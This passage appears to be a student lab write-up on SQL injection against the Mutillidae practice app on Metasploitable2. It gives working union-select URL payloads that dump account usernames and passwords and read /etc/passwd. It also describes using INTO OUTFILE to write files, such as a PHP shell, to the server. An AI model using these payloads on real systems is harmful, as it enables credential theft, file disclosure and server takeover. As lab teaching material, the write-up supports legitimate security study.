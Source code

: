 
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).
```
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
```

![244885903-f7dd79fb-c11c-41f3-8019-06685e9cd759](https://github.com/KRISHNARAJ-D/sqlinjection/assets/119559695/7cde518a-8c34-49a8-a933-46a119a012e0)


# Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
```
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
```
  ![244885909-13f4a113-06fc-4d62-a8ec-6525c4ec1343](https://github.com/KRISHNARAJ-D/sqlinjection/assets/119559695/5616e325-14e6-427b-9688-8bf51b627f5b)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
## Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).




## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
